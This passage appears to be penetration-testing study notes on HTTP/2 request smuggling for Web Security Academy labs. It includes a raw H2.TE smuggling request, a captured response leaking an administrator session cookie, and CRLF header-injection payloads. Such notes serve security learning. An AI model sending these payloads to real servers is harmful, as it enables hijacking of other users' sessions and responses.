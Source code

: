 
**Response queue poisoning via H2.TE request smuggling**
- send smuggled attack
```http
POST / HTTP/2
Host: 0a7700ba0387efca807126d800a70016.web-security-academy.net
Cookie: session=d9Ne6NmaMRf2HWSoeh7hTutbwVMIKkpw
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: 0a7700ba0387efca807126d800a70016.web-security-academy.net


```

- wait and send another request to receive another user's response
```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=E6mupqkseGWnXaPfu3xDDL2cjgHRU9DG; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

## Request smuggling via CRLF injection
**To bypass basic H2.CL or H2.TE** attacks in HTTP/2. servers filter `Content-Length` and `Transfer-Encoding` headers , so inject CRLF in Headers using burp inspector open the header and press (Shift + Enter) to inject CRLF as binary 

- Front-end (HTTP/2)
```http
foo: bar\r\nTransfer-Encoding: chunked\r\nX: 	ignore
```

- Back-end (HTTP/1)
```http
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```
## Request smuggling HTTP/2 request splitting
Inject CRLF in Headers using burp inspector open the header and press (Shift + Enter) to inject CRLF as binary (EX: Response queue poisoning)

![Screenshot 2023-10-01 at 11-01-44 Advanced request smuggling Web Security Academy](https://github.com/kiro6/penetration-testing-notes/assets/57776872/42db5224-e92c-4789-84a4-4344e7023645)

You will also need to adjust the positioning of any internal headers that you want to inject in a similar manner.
